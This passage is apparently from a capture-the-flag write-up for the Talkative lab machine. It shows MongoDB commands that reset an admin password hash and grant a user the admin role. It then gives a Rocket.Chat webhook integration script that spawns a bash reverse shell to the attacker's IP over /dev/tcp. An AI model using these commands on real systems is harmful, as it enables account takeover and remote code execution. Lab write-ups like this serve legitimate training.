```bash
db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$ZcP2SxsOH811cJjuxgvk.udV8pkPx7Hw6G9GqKr08S3ZcYFnNRz7C" } } } })

```

But this wasn't working as when I visited the rocket chat site it was still giving an error on login so instead I created a user and gave him the admin role

```bash
db.users.update({username: "arz"}, { $push: { roles: "admin"}})
```

<img src="https://i.imgur.com/ebYuUZt.png"/>

<img src="https://i.imgur.com/7qedEkl.png"/>

<img src="https://i.imgur.com/0MxNLdT.png"/>

The reason why I port forwarded 3000 is because it wasn't repsonding normally with 
`talkative.htb:3000` so I port forwarded like I did for mongodb

<img src="https://i.imgur.com/GobLDUt.png"/>

We can get remote execution by using node js and calling a bash reverse shell, there's a blog explaining abusing intergration to get remote code execution

<img src="https://i.imgur.com/wSrd8KS.png"/>

https://blog.sonarsource.com/nosql-injections-in-rocket-chat

Access the administration panel and visit Integrations and then select `Incoming WebHook`

<img src="https://i.imgur.com/hJ0YDdN.png"/>

<img src="https://i.imgur.com/tX1plIh.png"/>

<img src="https://i.imgur.com/8mBSEz9.png"/>

```bash
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.73/6666 0>&1'");
```
<img src="https://i.imgur.com/XWVaMrt.png"/>

After saving changes, you'll get a url for webhook

<img src="https://i.imgur.com/ZMJPVVI.png"/>

Visit this link and you'll get a shell

<img src="https://i.imgur.com/8TnUx53.png"/>

After getting a shell we are again inside a container, there wasn't anything interesting on this container , so I decide to check what capabilites we have on this docker instance
